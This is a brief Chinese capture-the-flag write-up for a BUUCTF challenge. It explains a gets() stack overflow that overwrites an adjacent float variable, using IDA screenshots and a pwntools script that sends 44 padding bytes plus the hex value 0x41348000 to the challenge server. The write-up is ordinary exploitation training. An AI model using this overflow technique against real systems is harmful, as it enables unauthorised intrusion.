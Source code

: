 ### Gets 栈溢出（变量覆盖）

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/677f2e19d0e0a243d4f25188.jpg)

IDA64 反编译

![](https://pic1.imgdb.cn/item/677f2e2cd0e0a243d4f2518f.jpg)

追踪看到 gets

![](https://pic1.imgdb.cn/item/677f2e40d0e0a243d4f25195.jpg)

v1 的下面就是 v2，通过溢出改为 v2 的值使条件成立

![](https://pic1.imgdb.cn/item/677f2e65d0e0a243d4f2519b.jpg)

**注意：浮点数要转十六进制**

```python
from pwn import *

p = remote("node5.buuoj.cn", 29455)

payload = b'a' * 44 + p64(0x41348000)

p.sendline(payload)
p.interactive()
```

拿到 flag

![](https://pic1.imgdb.cn/item/677f2f24d0e0a243d4f251ce.jpg)